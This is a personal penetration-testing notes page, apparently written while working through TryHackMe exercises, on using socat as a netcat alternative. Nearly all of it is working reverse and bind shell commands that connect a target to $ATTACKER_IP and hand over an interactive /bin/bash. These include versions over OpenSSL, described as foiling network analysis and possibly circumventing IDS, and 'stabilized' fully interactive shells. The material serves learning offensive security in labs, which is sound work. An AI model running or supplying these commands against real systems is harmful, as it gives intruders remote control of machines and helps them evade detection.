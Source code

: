 # Using “socat”

Socat: An anything-to-anything connector!

## “socat” vs. “netcat”

Equivalent commands between socat and [netcat](netcat.md):

| Role                     | netcat                                   | socat                                                  |
|:------------------------ |:---------------------------------------- |:------------------------------------------------------ |
| Reverse shell (attacker) | `nc -lnp $LISTENER_PORT`                    | `socat TCP-LISTEN:$LISTENER_PORT -`                       |
| Reverse shell (target)   | `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash` | `socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"` |
| Bind shell (attacker)    | `nc $TARGET_IP $LISTENER_PORT`              | `socat TCP:$TARGET_IP:$LISTENER_PORT`                      |
| Bind shell (target)      | `nc -lnp $LISTENER_PORT -e /bin/bash`        | `socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"`      |

Socat gets us an interactive login shell right out the gate, though we’re still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

### Socat Encrypted Shells

Socat can also make encrypted connections, which foil after-the-fact network analysis and may circumvent IDS entirely.

```bash
# Generate a self-signed certificate.
#
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

# Create a PEM file combining the certificate and key.
#
cat shell.key shell.crt > shell.pem

# Start a listener.
#
socat OPENSSL-LISTEN:$LISTENER_PORT,cert=shell.pem,verify=0 -

# Start the reverse shell on the target.
#
socat OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 EXEC:"/bin/bash -li"
```

The `verify=0` directive turns off certificate validation, so this isn’t a “secure” connection in the sense that it’s been *authenticated*, but it is secure in the sense that it’s *encrypted*.

## Shell “Stabilization”

Shell “stabilization” refers to the process of making a remote shell behave like a normal local shell — so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems.

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo. Basically
# the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to “normalize” the
#              terminal’s environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

Same thing, but over an encrypted connection:

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo. Basically
# the `stty raw -echo`.
#
socat OPENSSL-LISTEN:$LISTENER_PORT,cert=$PEM_FILE,verify=0 FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to “normalize” the
#              terminal’s environment
#
socat OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that the reverse shell will not pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)

- - - -

👤 Nathan Acks  
📅 October 28, 2021
